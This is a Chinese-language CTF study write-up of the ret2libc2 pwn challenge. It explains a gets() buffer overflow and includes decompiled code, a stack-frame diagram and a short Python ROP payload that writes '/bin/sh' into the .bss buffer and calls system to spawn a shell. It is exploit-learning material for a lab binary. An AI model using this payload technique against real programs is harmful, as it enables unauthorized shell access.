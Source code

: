 查找`"/bin/sh"`，发现并没有

```C
pwndbg> shell ROPgadget --binary ret2libc2 --string '/bin/sh'
Strings information
============================================================
```

反汇编`main`函数，发现`.bss`数据段数据（`char s[100]`）（没有开启`PIE`）

> 考虑把`'/bin/sh'`存放到`.bbs`段

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("Something surprise here, but I don't think it will work.");
  printf("What do you think ?");
  gets(s);
  return 0;
}
```

发现隐藏在`.bss`的变量`buf2`，由于原函数没有赋值`buf2`的代码，因此需要借用`gets@plt`伪造栈帧来利用`buf2`存放`system`函数的参数

> payload 伪造栈帧如下

```
Low -> High

[0] (char*)c --(108 bytes)-- ebp --(4 bytes)-- ret_addr --...

[1] 
--[112 bytes] junk data
--(ret_addr_main = gets@plt)
--(ret_addr_gets = pop_ret_addr) --> 清除gets函数的param,执行完后ret返回,用来平衡栈帧
--(param_gets = addr of .bss; ret_addr_system = Any Address)
--(param_system = addr of .bss)
```

<img src="D:\github\pwn\pwn_study\images\ret2libc2_bss_buf2.png" alt="ret2libc2_bss_buf2" style="zoom:50%;" />

```python
system_plt = 0x8048490
gets_plt = 0x8048460
bss_buf2_addr = 0x0804A080  # param of gets
pop_ebx_ret_addr = 0x0804843d  # : pop ebx ; ret
payload = flat([gets_plt, pop_ebx_ret_addr, bss_buf2_addr, system_plt, 'b'*4, bss_buf2_addr])
```

Exploit

> * 不要忘了你`call _gets`还要再输送一次参数！
> * 需要注意的是，我这里向程序中 bss 段的 buf2 处写入 /bin/sh 字符串，并将其地址作为 system 的参数传入。这样以便于可以获得 shell。
